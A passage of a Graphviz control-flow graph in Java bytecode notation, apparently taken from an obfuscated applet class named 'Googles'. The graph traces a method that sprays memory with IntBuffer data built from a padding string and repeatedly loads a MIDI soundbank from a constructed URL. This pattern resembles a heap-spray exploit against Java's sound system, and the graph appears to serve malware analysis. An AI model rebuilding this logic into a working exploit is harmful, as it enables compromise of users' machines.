    "new java.lang.StringBuilder"->"dup1.r";
    "dup1.r"->"specialinvoke <java.lang.StringBuilder: void <init>()>";
    "specialinvoke <java.lang.StringBuilder: void <init>()>"->"load.r r0";
    "load.r r0"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "load.r r52"
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"load.r r52";
    "load.r r52"->"virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>";
    "virtualinvoke <java.lang.StringBuilder: java.lang.StringBuilder append(java.lang.String)>"->"virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>";
    "new java.net.URL"
    "virtualinvoke <java.lang.StringBuilder: java.lang.String toString()>"->"new java.net.URL";
    "new java.net.URL"->"store.r r0";
    "store.r r0"->"load.r r0";
    "load.r r0"->"load.r r227";
    "specialinvoke <java.net.URL: void <init>(java.lang.String)>"
    "load.r r227"->"specialinvoke <java.net.URL: void <init>(java.lang.String)>";
    "push \"9mmm090909m0mmm\""
    "specialinvoke <java.net.URL: void <init>(java.lang.String)>"->"push \"9mmm090909m0mmm\"";
    "push \"m\""
    "push \"9mmm090909m0mmm\""->"push \"m\"";
    "push \"m\""->"push \"\"";
    "push \"\""->"virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>";
    "virtualinvoke <Googles: java.nio.IntBuffer[] __E(java.lang.String,java.lang.String)>"
    "virtualinvoke <java.lang.String: java.lang.String replace(java.lang.CharSequence,java.lang.CharSequence)>"->"virtualinvoke <Googles: java.nio.IntBuffer[] __E(java.lang.String,java.lang.String)>";
    "fieldput <Googles: java.nio.IntBuffer[] mem>"
    "virtualinvoke <Googles: java.nio.IntBuffer[] __E(java.lang.String,java.lang.String)>"->"fieldput <Googles: java.nio.IntBuffer[] mem>";
    "fieldput <Googles: java.nio.IntBuffer[] mem>"->"load.r r0";
    "staticinvoke <javax.sound.midi.MidiSystem: javax.sound.midi.Soundbank getSoundbank(java.net.URL)>"
    "load.r r0"->"staticinvoke <javax.sound.midi.MidiSystem: javax.sound.midi.Soundbank getSoundbank(java.net.URL)>";
    "staticinvoke <javax.sound.midi.MidiSystem: javax.sound.midi.Soundbank getSoundbank(java.net.URL)>"->"pop";
    "push 10L"
    "pop"->"push 10L";
    "staticinvoke <java.lang.Thread: void sleep(long)>"
    "push 10L"->"staticinvoke <java.lang.Thread: void sleep(long)>";
    "goto push 10L"
    "staticinvoke <java.lang.Thread: void sleep(long)>"->"goto push 10L";
    "staticinvoke <java.lang.Thread: void sleep(long)>"->"store.r r0";
    "return"
    "store.r r0"->"return";
    "iflt return"->"return";
}
